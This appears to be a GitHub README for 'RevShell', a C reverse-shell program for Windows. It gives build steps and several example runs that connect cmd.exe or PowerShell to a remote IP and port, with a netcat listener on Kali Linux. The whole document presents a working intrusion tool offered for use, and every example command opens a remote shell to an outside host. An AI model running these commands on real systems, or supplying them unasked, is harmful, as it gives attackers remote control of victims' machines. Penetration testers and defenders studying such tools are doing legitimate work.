 # RevShell

## Description
This is a simple C-based reverse shell used to open a _CMD_ or _PowerShell_ session from Windows to Linux/Windows/OSx.

## Features
- [x] Open a reverse shell using cmd.exe
- [x] Open a reverse shell using powershell.exe

## How To Compile The Code
1. Download and install VisualStudio 2019 - Community Edition
2. Clone this repository to a local folder
3. Open the file "RevShell.sln"
4. Press F6 to compile the code
5. Enjoy :)

## Examples
Before starting the executable make sure you have started a listener on your favorite (Linux) distribution. I use netcat on Kali Linux.

> Open a CMD session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a CMD session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 cmd
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a PowerShell session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 powershell
[+] SELECTED SHELL:     1
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

![RevShell.exe in action](https://github.com/AleDiBen/RevShell/blob/master/example.png)\
_RevShell.exe in action._
